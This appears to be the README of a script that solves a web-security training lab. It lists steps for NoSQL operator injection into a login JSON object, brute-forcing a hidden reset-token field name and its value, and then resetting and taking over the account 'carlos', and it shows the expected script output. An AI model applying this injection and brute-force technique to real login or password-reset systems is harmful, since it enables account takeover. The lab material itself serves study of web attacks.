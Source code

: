 ## Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

## Run Script

1. Change the URL of the lab
2. You may need to change the field number you extract depending on the lab setup. Either field 3 or field 4 should work
3. Start script

```
~$ python main.py
```

## Expected Output

```
#⦘ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Determining the length of the 3rd field.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct: 11 ]
⦗5⦘ Brute force the field name.. 
❯❯ Checking if char at position 4 = c [ Correct: unloc ]
❯❯ Checking if char at position 7 = o [ Correct: unlockTo ]
                ...........
❯❯ Checking if char at position 10 = n [ Correct: unlockToken ]
⦗6⦘ Determining the length of the 3rd field value.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct: 11 ]
⦗7⦘ Brute force the field value.. 
❯❯ Checking if char at position 5 = e [ Correct: 326f5e ]
❯❯ Checking if char at position 9 = 0 [ Correct: 326f5e3852 ]
                ...........
❯❯ Checking if char at position 15 = 0 [ Correct: 326f5e38529aa000 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to Hacked..OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```
